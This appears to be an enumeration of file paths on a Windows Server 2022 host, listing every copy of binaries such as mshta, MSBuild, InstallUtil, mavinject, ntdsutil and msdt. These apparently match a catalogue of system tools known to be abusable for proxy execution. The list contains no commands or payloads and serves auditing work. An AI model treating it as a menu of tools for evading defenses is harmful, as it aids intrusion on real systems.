Path: C:\Windows\System32\eventvwr.exe
Path: C:\Windows\SysWOW64\eventvwr.exe
Path: C:\Windows\WinSxS\amd64_eventviewersettings_31bf3856ad364e35_10.0.20348.1_none_7e66d58accb9ba7b\eventvwr.exe
Path: C:\Windows\WinSxS\wow64_eventviewersettings_31bf3856ad364e35_10.0.20348.1_none_88bb7fdd011a7c76\eventvwr.exe
Path: C:\Windows\System32\expand.exe
Path: C:\Windows\SysWOW64\expand.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-expand_31bf3856ad364e35_10.0.20348.1_none_e1e17a0020e70781\expand.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-expand_31bf3856ad364e35_10.0.20348.1_none_ec3624525547c97c\expand.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\amd64_microsoft-windows-ie-impexp-extexport_31bf3856ad364e35_11.0.20348.2849_none_19f7af3c1f588bba\f\extexport.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\x86_microsoft-windows-ie-impexp-extexport_31bf3856ad364e35_11.0.20348.2849_none_bdd913b866fb1a84\f\extexport.exe
Path: C:\Program Files\Internet Explorer\ExtExport.exe
Path: C:\Program Files (x86)\Internet Explorer\ExtExport.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-ie-impexp-extexport_31bf3856ad364e35_11.0.20348.2849_none_19f7af3c1f588bba\ExtExport.exe
Path: C:\Windows\WinSxS\x86_microsoft-windows-ie-impexp-extexport_31bf3856ad364e35_11.0.20348.2849_none_bdd913b866fb1a84\ExtExport.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-ie-impexp-extexport_31bf3856ad364e35_11.0.20348.2849_none_19f7af3c1f588bba\f\ExtExport.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-ie-impexp-extexport_31bf3856ad364e35_11.0.20348.2849_none_19f7af3c1f588bba\r\ExtExport.exe
Path: C:\Windows\WinSxS\x86_microsoft-windows-ie-impexp-extexport_31bf3856ad364e35_11.0.20348.2849_none_bdd913b866fb1a84\f\ExtExport.exe
Path: C:\Windows\WinSxS\x86_microsoft-windows-ie-impexp-extexport_31bf3856ad364e35_11.0.20348.2849_none_bdd913b866fb1a84\r\ExtExport.exe
Path: C:\Windows\System32\extrac32.exe
Path: C:\Windows\SysWOW64\extrac32.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-extrac32_31bf3856ad364e35_10.0.20348.1_none_64989822ccebfa27\extrac32.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-extrac32_31bf3856ad364e35_10.0.20348.1_none_6eed4275014cbc22\extrac32.exe
Path: C:\Windows\System32\findstr.exe
Path: C:\Windows\SysWOW64\findstr.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-findstr_31bf3856ad364e35_10.0.20348.1_none_b09e88e622bb3dfd\findstr.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-findstr_31bf3856ad364e35_10.0.20348.1_none_baf33338571bfff8\findstr.exe
Path: C:\Windows\System32\forfiles.exe
Path: C:\Windows\SysWOW64\forfiles.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-forfiles_31bf3856ad364e35_10.0.20348.1_none_de926d23a68f60c3\forfiles.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-forfiles_31bf3856ad364e35_10.0.20348.1_none_e8e71775daf022be\forfiles.exe
Path: C:\Windows\System32\ftp.exe
Path: C:\Windows\SysWOW64\ftp.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-ftp_31bf3856ad364e35_10.0.20348.3451_none_555a30b88ac634eb\ftp.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-ftp_31bf3856ad364e35_10.0.20348.3451_none_5faedb0abf26f6e6\ftp.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-ftp_31bf3856ad364e35_10.0.20348.3451_none_555a30b88ac634eb\f\ftp.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-ftp_31bf3856ad364e35_10.0.20348.3451_none_555a30b88ac634eb\r\ftp.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-ftp_31bf3856ad364e35_10.0.20348.3451_none_5faedb0abf26f6e6\f\ftp.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-ftp_31bf3856ad364e35_10.0.20348.3451_none_5faedb0abf26f6e6\r\ftp.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\amd64_microsoft-windows-ftp_31bf3856ad364e35_10.0.20348.3451_none_555a30b88ac634eb\f\ftp.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\wow64_microsoft-windows-ftp_31bf3856ad364e35_10.0.20348.3451_none_5faedb0abf26f6e6\f\ftp.exe
Path: C:\Windows\System32\gpscript.exe
Path: C:\Windows\SysWOW64\gpscript.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-grouppolicy-script_31bf3856ad364e35_10.0.20348.1_none_ee86360638b2d966\gpscript.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-grouppolicy-script_31bf3856ad364e35_10.0.20348.1_none_f8dae0586d139b61\gpscript.exe
Path: C:\Windows\hh.exe
Path: C:\Windows\SysWOW64\hh.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-htmlhelp_31bf3856ad364e35_10.0.20348.1_none_51c4f4364dc3118d\hh.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-htmlhelp_31bf3856ad364e35_10.0.20348.1_none_5c199e888223d388\hh.exe
Path: C:\Windows\System32\ie4uinit.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-ie-setup-support_31bf3856ad364e35_11.0.20348.3451_none_b1f79bdfba2a188c\ie4uinit.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-ie-setup-support_31bf3856ad364e35_11.0.20348.3451_none_b1f79bdfba2a188c\f\ie4uinit.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-ie-setup-support_31bf3856ad364e35_11.0.20348.3451_none_b1f79bdfba2a188c\r\ie4uinit.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\amd64_microsoft-windows-ie-setup-support_31bf3856ad364e35_11.0.20348.3451_none_b1f79bdfba2a188c\f\ie4uinit.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\amd64_microsoft-windows-ie-ieadvpack_31bf3856ad364e35_11.0.20348.2849_none_baec39102a61903f\f\ieadvpack.dll
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\wow64_microsoft-windows-ie-ieadvpack_31bf3856ad364e35_11.0.20348.2849_none_c540e3625ec2523a\f\ieadvpack.dll
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\x86_microsoft-windows-ie-ieadvpack_31bf3856ad364e35_11.0.20348.2849_none_5ecd9d8c72041f09\f\ieadvpack.dll
Path: C:\Windows\System32\IEAdvpack.dll
Path: C:\Windows\SysWOW64\IEAdvpack.dll
Path: C:\Windows\WinSxS\amd64_microsoft-windows-ie-ieadvpack_31bf3856ad364e35_11.0.20348.2849_none_baec39102a61903f\IEAdvpack.dll
Path: C:\Windows\WinSxS\x86_microsoft-windows-ie-ieadvpack_31bf3856ad364e35_11.0.20348.2849_none_5ecd9d8c72041f09\IEAdvpack.dll
Path: C:\Windows\WinSxS\amd64_microsoft-windows-ie-ieadvpack_31bf3856ad364e35_11.0.20348.2849_none_baec39102a61903f\f\IEAdvpack.dll
Path: C:\Windows\WinSxS\amd64_microsoft-windows-ie-ieadvpack_31bf3856ad364e35_11.0.20348.2849_none_baec39102a61903f\r\IEAdvpack.dll
Path: C:\Windows\WinSxS\x86_microsoft-windows-ie-ieadvpack_31bf3856ad364e35_11.0.20348.2849_none_5ecd9d8c72041f09\f\IEAdvpack.dll
Path: C:\Windows\WinSxS\x86_microsoft-windows-ie-ieadvpack_31bf3856ad364e35_11.0.20348.2849_none_5ecd9d8c72041f09\r\IEAdvpack.dll
Path: C:\Windows\WinSxS\amd64_netfx4-ilasm_exe_b03f5f7f11d50a3a_4.0.15806.0_none_5fe3df7e2920f4bd\ilasm.exe
Path: C:\Windows\WinSxS\x86_netfx4-ilasm_exe_b03f5f7f11d50a3a_4.0.15806.0_none_a79116553d9d1dc3\ilasm.exe
Path: C:\Windows\Microsoft.NET\Framework\v4.0.30319\ilasm.exe
Path: C:\Windows\Microsoft.NET\Framework64\v4.0.30319\ilasm.exe
Path: C:\Windows\System32\InfDefaultInstall.exe
Path: C:\Windows\SysWOW64\InfDefaultInstall.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-infdefaultinstall_31bf3856ad364e35_10.0.20348.1_none_f603814365160072\InfDefaultInstall.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-infdefaultinstall_31bf3856ad364e35_10.0.20348.1_none_00582b959976c26d\InfDefaultInstall.exe
Path: C:\Windows\WinSxS\amd64_installutil_b03f5f7f11d50a3a_4.0.15806.0_none_d67e07390c494773\InstallUtil.exe
Path: C:\Windows\WinSxS\wow64_installutil_b03f5f7f11d50a3a_4.0.15806.0_none_004c4e52cd93dc90\InstallUtil.exe
Path: C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe
Path: C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe
Path: C:\Windows\WinSxS\amd64_jsc_b03f5f7f11d50a3a_4.0.15806.0_none_02da82dac29fc3c2\jsc.exe
Path: C:\Windows\WinSxS\wow64_jsc_b03f5f7f11d50a3a_4.0.15806.0_none_2ca8c9f483ea58df\jsc.exe
Path: C:\Windows\Microsoft.NET\Framework\v4.0.30319\jsc.exe
Path: C:\Windows\Microsoft.NET\Framework64\v4.0.30319\jsc.exe
Path: C:\Windows\System32\makecab.exe
Path: C:\Windows\SysWOW64\makecab.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-makecab_31bf3856ad364e35_10.0.20348.1_none_7a3e7f6a32456f57\makecab.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-makecab_31bf3856ad364e35_10.0.20348.1_none_849329bc66a63152\makecab.exe
Path: C:\Windows\System32\mavinject.exe
Path: C:\Windows\SysWOW64\mavinject.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-appmanagement-appvwow_31bf3856ad364e35_10.0.20348.3451_none_5ba89f1024a2fc58\mavinject.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-appmanagement-appvwow_31bf3856ad364e35_10.0.20348.3451_none_65fd49625903be53\mavinject.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-appmanagement-appvwow_31bf3856ad364e35_10.0.20348.3451_none_5ba89f1024a2fc58\f\mavinject.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-appmanagement-appvwow_31bf3856ad364e35_10.0.20348.3451_none_5ba89f1024a2fc58\r\mavinject.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-appmanagement-appvwow_31bf3856ad364e35_10.0.20348.3451_none_65fd49625903be53\f\mavinject.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-appmanagement-appvwow_31bf3856ad364e35_10.0.20348.3451_none_65fd49625903be53\r\mavinject.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\amd64_microsoft-windows-appmanagement-appvwow_31bf3856ad364e35_10.0.20348.3451_none_5ba89f1024a2fc58\f\mavinject.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\wow64_microsoft-windows-appmanagement-appvwow_31bf3856ad364e35_10.0.20348.3451_none_65fd49625903be53\f\mavinject.exe
Path: C:\Windows\WinSxS\amd64_microsoft.workflow.compiler_31bf3856ad364e35_4.0.15806.0_none_eb7fe9dcc519b26e\Microsoft.Workflow.Compiler.exe
Path: C:\Windows\Microsoft.NET\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe
Path: C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe
Path: C:\Windows\Microsoft.NET\assembly\GAC_MSIL\Microsoft.Workflow.Compiler\v4.0_4.0.0.0__31bf3856ad364e35\Microsoft.Workflow.Compiler.exe
Path: C:\Windows\System32\mmc.exe
Path: C:\Windows\SysWOW64\mmc.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-m..-management-console_31bf3856ad364e35_10.0.20348.3451_none_b7e21dd8a7de75ef\mmc.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-m..-management-console_31bf3856ad364e35_10.0.20348.3804_none_b7b1985ea803b3e3\mmc.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-m..-management-console_31bf3856ad364e35_10.0.20348.3451_none_c236c82adc3f37ea\mmc.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-m..-management-console_31bf3856ad364e35_10.0.20348.3804_none_c20642b0dc6475de\mmc.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-m..-management-console_31bf3856ad364e35_10.0.20348.3451_none_b7e21dd8a7de75ef\f\mmc.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-m..-management-console_31bf3856ad364e35_10.0.20348.3451_none_b7e21dd8a7de75ef\r\mmc.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-m..-management-console_31bf3856ad364e35_10.0.20348.3804_none_b7b1985ea803b3e3\f\mmc.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-m..-management-console_31bf3856ad364e35_10.0.20348.3804_none_b7b1985ea803b3e3\r\mmc.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-m..-management-console_31bf3856ad364e35_10.0.20348.3451_none_c236c82adc3f37ea\f\mmc.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-m..-management-console_31bf3856ad364e35_10.0.20348.3451_none_c236c82adc3f37ea\r\mmc.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-m..-management-console_31bf3856ad364e35_10.0.20348.3804_none_c20642b0dc6475de\f\mmc.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-m..-management-console_31bf3856ad364e35_10.0.20348.3804_none_c20642b0dc6475de\r\mmc.exe
Path: C:\Windows\WinSxS\amd64_msbuild_b03f5f7f11d50a3a_4.0.15806.0_none_dc39867b9c608090\MSBuild.exe
Path: C:\Windows\WinSxS\wow64_msbuild_b03f5f7f11d50a3a_4.0.15806.0_none_0607cd955dab15ad\MSBuild.exe
Path: C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe
Path: C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe
Path: C:\Windows\Microsoft.NET\assembly\GAC_32\MSBuild\v4.0_4.0.0.0__b03f5f7f11d50a3a\MSBuild.exe
Path: C:\Windows\Microsoft.NET\assembly\GAC_64\MSBuild\v4.0_4.0.0.0__b03f5f7f11d50a3a\MSBuild.exe
Path: C:\Windows\System32\msconfig.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-msconfig-exe_31bf3856ad364e35_10.0.20348.2849_none_82bc192bd01e6e14\msconfig.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-msconfig-exe_31bf3856ad364e35_10.0.20348.2849_none_82bc192bd01e6e14\f\msconfig.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-msconfig-exe_31bf3856ad364e35_10.0.20348.2849_none_82bc192bd01e6e14\r\msconfig.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\amd64_microsoft-windows-msconfig-exe_31bf3856ad364e35_10.0.20348.2849_none_82bc192bd01e6e14\f\msconfig.exe
Path: C:\Windows\System32\msdt.exe
Path: C:\Windows\SysWOW64\msdt.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-msdt_31bf3856ad364e35_10.0.20348.2849_none_4dc43c9b4fe4d701\msdt.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-msdt_31bf3856ad364e35_10.0.20348.2849_none_5818e6ed844598fc\msdt.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-msdt_31bf3856ad364e35_10.0.20348.2849_none_4dc43c9b4fe4d701\f\msdt.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-msdt_31bf3856ad364e35_10.0.20348.2849_none_4dc43c9b4fe4d701\r\msdt.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-msdt_31bf3856ad364e35_10.0.20348.2849_none_5818e6ed844598fc\f\msdt.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-msdt_31bf3856ad364e35_10.0.20348.2849_none_5818e6ed844598fc\r\msdt.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\amd64_microsoft-windows-msdt_31bf3856ad364e35_10.0.20348.2849_none_4dc43c9b4fe4d701\f\msdt.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\wow64_microsoft-windows-msdt_31bf3856ad364e35_10.0.20348.2849_none_5818e6ed844598fc\f\msdt.exe
Path: C:\Windows\System32\mshta.exe
Path: C:\Windows\SysWOW64\mshta.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-ie-htmlapplication_31bf3856ad364e35_11.0.20348.2849_none_4553dddc6530844c\mshta.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-ie-htmlapplication_31bf3856ad364e35_11.0.20348.2849_none_4fa8882e99914647\mshta.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-ie-htmlapplication_31bf3856ad364e35_11.0.20348.2849_none_4553dddc6530844c\f\mshta.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-ie-htmlapplication_31bf3856ad364e35_11.0.20348.2849_none_4553dddc6530844c\r\mshta.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-ie-htmlapplication_31bf3856ad364e35_11.0.20348.2849_none_4fa8882e99914647\f\mshta.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-ie-htmlapplication_31bf3856ad364e35_11.0.20348.2849_none_4fa8882e99914647\r\mshta.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\amd64_microsoft-windows-ie-htmlapplication_31bf3856ad364e35_11.0.20348.2849_none_4553dddc6530844c\f\mshta.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\wow64_microsoft-windows-ie-htmlapplication_31bf3856ad364e35_11.0.20348.2849_none_4fa8882e99914647\f\mshta.exe
Path: C:\Windows\System32\mshtml.dll
Path: C:\Windows\SysWOW64\mshtml.dll
Path: C:\Windows\WinSxS\amd64_microsoft-windows-i..tmlrendering-legacy_31bf3856ad364e35_11.0.20348.3692_none_fe4745500e13cbaf\mshtml.dll
Path: C:\Windows\WinSxS\amd64_microsoft-windows-i..tmlrendering-legacy_31bf3856ad364e35_11.0.20348.3804_none_fe28754e0e2c52c4\mshtml.dll
Path: C:\Windows\WinSxS\wow64_microsoft-windows-i..tmlrendering-legacy_31bf3856ad364e35_11.0.20348.3692_none_089befa242748daa\mshtml.dll
Path: C:\Windows\WinSxS\wow64_microsoft-windows-i..tmlrendering-legacy_31bf3856ad364e35_11.0.20348.3804_none_087d1fa0428d14bf\mshtml.dll
Path: C:\Windows\WinSxS\amd64_microsoft-windows-i..tmlrendering-legacy_31bf3856ad364e35_11.0.20348.3692_none_fe4745500e13cbaf\f\mshtml.dll
Path: C:\Windows\WinSxS\amd64_microsoft-windows-i..tmlrendering-legacy_31bf3856ad364e35_11.0.20348.3692_none_fe4745500e13cbaf\r\mshtml.dll
Path: C:\Windows\WinSxS\amd64_microsoft-windows-i..tmlrendering-legacy_31bf3856ad364e35_11.0.20348.3804_none_fe28754e0e2c52c4\f\mshtml.dll
Path: C:\Windows\WinSxS\amd64_microsoft-windows-i..tmlrendering-legacy_31bf3856ad364e35_11.0.20348.3804_none_fe28754e0e2c52c4\r\mshtml.dll
Path: C:\Windows\WinSxS\wow64_microsoft-windows-i..tmlrendering-legacy_31bf3856ad364e35_11.0.20348.3692_none_089befa242748daa\f\mshtml.dll
Path: C:\Windows\WinSxS\wow64_microsoft-windows-i..tmlrendering-legacy_31bf3856ad364e35_11.0.20348.3692_none_089befa242748daa\r\mshtml.dll
Path: C:\Windows\WinSxS\wow64_microsoft-windows-i..tmlrendering-legacy_31bf3856ad364e35_11.0.20348.3804_none_087d1fa0428d14bf\f\mshtml.dll
Path: C:\Windows\WinSxS\wow64_microsoft-windows-i..tmlrendering-legacy_31bf3856ad364e35_11.0.20348.3804_none_087d1fa0428d14bf\r\mshtml.dll
Path: C:\Windows\System32\msiexec.exe
Path: C:\Windows\SysWOW64\msiexec.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-installer-executable_31bf3856ad364e35_10.0.20348.2849_none_f1c34f74b8784028\msiexec.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-installer-executable_31bf3856ad364e35_10.0.20348.2849_none_fc17f9c6ecd90223\msiexec.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-installer-executable_31bf3856ad364e35_10.0.20348.2849_none_f1c34f74b8784028\f\msiexec.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-installer-executable_31bf3856ad364e35_10.0.20348.2849_none_f1c34f74b8784028\r\msiexec.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-installer-executable_31bf3856ad364e35_10.0.20348.2849_none_fc17f9c6ecd90223\f\msiexec.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-installer-executable_31bf3856ad364e35_10.0.20348.2849_none_fc17f9c6ecd90223\r\msiexec.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\amd64_microsoft-windows-installer-executable_31bf3856ad364e35_10.0.20348.2849_none_f1c34f74b8784028\f\msiexec.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\wow64_microsoft-windows-installer-executable_31bf3856ad364e35_10.0.20348.2849_none_fc17f9c6ecd90223\f\msiexec.exe
Path: C:\Windows\System32\netsh.exe
Path: C:\Windows\SysWOW64\netsh.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-netsh_31bf3856ad364e35_10.0.20348.1_none_e90ff3c1c0df68cb\netsh.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-netsh_31bf3856ad364e35_10.0.20348.1_none_f3649e13f5402ac6\netsh.exe
Path: C:\Windows\System32\ntdsutil.exe
Path: C:\Windows\SysWOW64\ntdsutil.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-d..ommandline-ntdsutil_31bf3856ad364e35_10.0.20348.2849_none_8392f32261f1b9a1\ntdsutil.exe
Path: C:\Windows\WinSxS\x86_microsoft-windows-d..ommandline-ntdsutil_31bf3856ad364e35_10.0.20348.2849_none_2774579ea994486b\ntdsutil.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-d..ommandline-ntdsutil_31bf3856ad364e35_10.0.20348.2849_none_8392f32261f1b9a1\f\ntdsutil.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-d..ommandline-ntdsutil_31bf3856ad364e35_10.0.20348.2849_none_8392f32261f1b9a1\r\ntdsutil.exe
Path: C:\Windows\WinSxS\x86_microsoft-windows-d..ommandline-ntdsutil_31bf3856ad364e35_10.0.20348.2849_none_2774579ea994486b\f\ntdsutil.exe
Path: C:\Windows\WinSxS\x86_microsoft-windows-d..ommandline-ntdsutil_31bf3856ad364e35_10.0.20348.2849_none_2774579ea994486b\r\ntdsutil.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\amd64_microsoft-windows-d..ommandline-ntdsutil_31bf3856ad364e35_10.0.20348.2849_none_8392f32261f1b9a1\f\ntdsutil.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\x86_microsoft-windows-d..ommandline-ntdsutil_31bf3856ad364e35_10.0.20348.2849_none_2774579ea994486b\f\ntdsutil.exe
Path: C:\Windows\System32\odbcconf.exe
Path: C:\Windows\SysWOW64\odbcconf.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-m..s-mdac-odbcconf-exe_31bf3856ad364e35_10.0.20348.1_none_96e5d800bb23cc7b\odbcconf.exe
Path: C:\Windows\WinSxS\x86_microsoft-windows-m..s-mdac-odbcconf-exe_31bf3856ad364e35_10.0.20348.1_none_3ac73c7d02c65b45\odbcconf.exe
Path: C:\Windows\System32\pcalua.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-a..atibility-assistant_31bf3856ad364e35_10.0.20348.3451_none_dc3558dc5563395f\pcalua.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-a..atibility-assistant_31bf3856ad364e35_10.0.20348.3451_none_dc3558dc5563395f\f\pcalua.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-a..atibility-assistant_31bf3856ad364e35_10.0.20348.3451_none_dc3558dc5563395f\r\pcalua.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\amd64_microsoft-windows-a..atibility-assistant_31bf3856ad364e35_10.0.20348.3451_none_dc3558dc5563395f\f\pcalua.exe
Path: C:\Windows\System32\pcwrun.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-pcwdiagnostic_31bf3856ad364e35_10.0.20348.3451_none_9d9aa0ac31e44b88\pcwrun.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-pcwdiagnostic_31bf3856ad364e35_10.0.20348.3451_none_9d9aa0ac31e44b88\f\pcwrun.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-pcwdiagnostic_31bf3856ad364e35_10.0.20348.3451_none_9d9aa0ac31e44b88\r\pcwrun.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\amd64_microsoft-windows-pcwdiagnostic_31bf3856ad364e35_10.0.20348.3451_none_9d9aa0ac31e44b88\f\pcwrun.exe
Path: C:\Windows\System32\pcwutl.dll
Path: C:\Windows\WinSxS\amd64_microsoft-windows-pcwdiagnostic_31bf3856ad364e35_10.0.20348.3451_none_9d9aa0ac31e44b88\pcwutl.dll
Path: C:\Windows\WinSxS\amd64_microsoft-windows-pcwdiagnostic_31bf3856ad364e35_10.0.20348.3451_none_9d9aa0ac31e44b88\f\pcwutl.dll
Path: C:\Windows\WinSxS\amd64_microsoft-windows-pcwdiagnostic_31bf3856ad364e35_10.0.20348.3451_none_9d9aa0ac31e44b88\r\pcwutl.dll
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\amd64_microsoft-windows-pcwdiagnostic_31bf3856ad364e35_10.0.20348.3451_none_9d9aa0ac31e44b88\f\pcwutl.dll
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\amd64_microsoft.powershell.pester_31bf3856ad364e35_10.0.20348.2965_none_7c6bd114a63520fd\f\pester.bat
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\wow64_microsoft.powershell.pester_31bf3856ad364e35_10.0.20348.2965_none_86c07b66da95e2f8\f\pester.bat
Path: C:\Windows\WinSxS\amd64_microsoft.powershell.pester_31bf3856ad364e35_10.0.20348.2965_none_7c6bd114a63520fd\Pester.bat
Path: C:\Windows\WinSxS\wow64_microsoft.powershell.pester_31bf3856ad364e35_10.0.20348.2965_none_86c07b66da95e2f8\Pester.bat
Path: C:\Program Files\WindowsPowerShell\Modules\Pester\3.4.0\bin\Pester.bat
Path: C:\Program Files (x86)\WindowsPowerShell\Modules\Pester\3.4.0\bin\Pester.bat
Path: C:\Windows\System32\PresentationHost.exe
Path: C:\Windows\SysWOW64\PresentationHost.exe
Path: C:\Windows\WinSxS\amd64_wpf-presentationhostexe_31bf3856ad364e35_10.0.20348.1_none_f96330d4e92474b2\PresentationHost.exe
Path: C:\Windows\WinSxS\x86_wpf-presentationhostexe_31bf3856ad364e35_10.0.20348.1_none_9d44955130c7037c\PresentationHost.exe
Path: C:\Windows\System32\print.exe
Path: C:\Windows\SysWOW64\print.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-m..ommandlineutilities_31bf3856ad364e35_10.0.20348.1_none_068beb2b305b2af4\print.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-m..ommandlineutilities_31bf3856ad364e35_10.0.20348.1_none_10e0957d64bbecef\print.exe
Path: C:\Windows\System32\psr.exe
Path: C:\Windows\SysWOW64\psr.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-a..roblemstepsrecorder_31bf3856ad364e35_10.0.20348.1_none_64608eb014005967\psr.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-a..roblemstepsrecorder_31bf3856ad364e35_10.0.20348.1_none_6eb5390248611b62\psr.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-p..inscripts.resources_31bf3856ad364e35_10.0.20348.1_en-us_981c5d7a1556e8f5\pubprn.vbs
